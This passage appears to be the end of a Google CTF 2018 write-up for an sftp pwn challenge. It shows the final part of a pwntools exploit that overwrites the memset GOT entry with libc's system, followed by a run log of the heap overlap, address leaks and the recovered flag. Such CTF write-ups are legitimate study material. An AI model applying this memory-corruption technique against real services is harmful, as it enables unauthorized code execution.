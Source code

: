 ```python

system_addr = libc_base + (0x7f3e98175390 - 0x7f3e98130000)

#now we do the arbitrary write to get system from memset...
arb_write(memset_location_addr, p64(system_addr))

#and finally trigger memset on the data ptr that currently has "cat /home/user/flag"
#doing it from interactice instead, peace
#put("foobar_1", "c")

p.interactive()
```

And the result is:
```
kutyacica@ubuntu:~/Desktop/GCTF18$ python expl.py 
[+] Opening connection to sftp.ctfcompetition.com on port 1337: Done
The authenticity of host 'sftp.google.ctf (3.13.3.7)' can't be established.
ECDSA key fingerprint is SHA256:+d+dnKGLreinYcA8EogcgjSF3yhvEBL+6twxEc04ZPq.
Are you sure you want to continue connecting (yes/no)? 
Warning: 
Permanently added 'sftp.google.ctf' (ECDSA) to the list of known hosts.
c01db33f@sftp.google.ctf's password: Connected to sftp.google.ctf.

sftp> 
[0] ... 
[50] ... 
[100] ... 
[150] ... 
[200] ... 
[250] ... 
[300] ... 
Data file_entry overlap achieved!!!!!!
/home/c01db33f/foobar_310 entry's data overlaps with another entry!
We can start writing into /home/c01db33f/foobar_310 and at data offset 2328 is the entry we overlapped.
Now we should have the name FFFF, let's write to it and then read it out
Scanning for a valid entry object...
[0]...
[50]...
[100]...
[150]...
[200]...
[250]...
[300]...
[350]...
[400]...
[450]...
We found the address of a valid entry!!
0x51f7378f is the parent dir address.
g_home_folder is at 0x557328cc9be0
memset addr in GOT is 0x557328cc6060
GOT addr is 0x557328cc6000
abort: 0x557328ac1cc6
strcpy: 0x7fb2d5e7c9d0
puts: 0x7fb2d5e46690
...
memset: 0x7fb2d5e66240
libc_base: 0x7fb2d5dd7000
[*] Switching to interactive mode
$ put foobar_1
$ c
CTF{Moar_Randomz_Moar_Mitigatez!}
sftp> $ pwd
```